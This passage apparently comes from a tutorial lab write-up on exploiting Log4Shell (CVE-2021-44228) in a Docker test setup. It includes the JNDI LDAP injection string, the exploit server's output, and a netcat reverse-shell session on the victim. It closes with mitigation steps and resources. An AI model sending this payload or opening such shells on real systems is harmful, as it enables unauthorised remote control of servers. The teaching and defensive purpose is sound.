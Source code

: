  ```sh
 [!] CVE: CVE-2021-44228                                                             
 [!] Github repo: https://github.com/kozmer/log4j-shell-poc                          

 [+] Exploit java class created success
 [+] Setting up LDAP server

 [+] Send me: ${jndi:ldap://172.16.238.1:1389/a}

 [+] Starting Webserver on port 80 http://0.0.0.0:80
 Listening on 0.0.0.0:1389
 # LDAP connection, redirecting to webserver:
 Send LDAP reference result for a redirecting to http://172.16.238.1:80/Exploit.class		
 # Java class with remoteshell payload served to victim server at 172.16.38.10:
 172.16.238.10 - - [09/Jan/2022 17:01:29] "GET /Exploit.class HTTP/1.1" 200 -				
 ```

Checking the reverse shell in the terminal that is running `netcat`:

```sh
listening on [any] 9001 ...
connect to [172.16.238.1] from (UNKNOWN) [172.16.238.10] 44886  # shell opened from victim server
# Run the following command to see where you are:
ls
> log4j-shell-poc
> maven3
> tomcat8
# Run the following command to see user and group IDs:
id
> uid=1000(user) gid=5001(user) groups=5001(user),27(sudo),100(users)
# Run the following to check the processes running on the victim server:
ps -ef
> UID          PID    PPID  C STIME TTY          TIME CMD
> user           1       0  0 16:56 ?        00:00:00 /bin/bash /entrypoint.sh /entrypoint.sh
> user          16       1  0 16:56 ?        00:00:21 /opt/jdk1.8.0_51/bin/java -Dnop - Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -classpath /home/user/tomcat8/log4j2/lib/*:/home/user/tomcat8/log4j2/conf:/home/user/tomcat8/bin/bootstrap.jar:/home/user/tomcat8/bin/tomcat-juli.jar -Dcatalina.base=/home/user/tomcat8 -Dcatalina.home=/home/user/tomcat8 -Djava.io.tmpdir=/home/user/tomcat8/temp  org.apache.catalina.startup.Bootstrap start
> user          17       1  0 16:56 ?        00:00:00 sleep 3600
> user          60      16  0 17:01 ?        00:00:00 /bin/sh
> user          66      16  0 17:43 ?        00:00:00 /bin/sh
> user          70      66  0 17:46 ?        00:00:00 ps -ef
```

With this remote shell the attacker (us 😁) has full control of the Tomcat 8 server. In this case, our control is limited to the docker session where we configured our test scenario.



## Mitigation

1. Update Log4j to version 2.17.0 that fully secures the library against the Log4Shell vulnerability.
2. Have an inventory of software and regularly update it. It is hard to know whether Log4j is being used in any given software system because it is often bundled as part of other software. Knowing what software runs in your system is key to keep up with published vulnerabilities.



## Useful resources

* Log4Shell remediation cheat sheet: `https://snyk.io/blog/log4shell-remediation-cheat-sheet/?loc=learn`
* Deeper look into the injection of the malicious Java class: `https://learn.snyk.io/lessons/log4shell/java/`
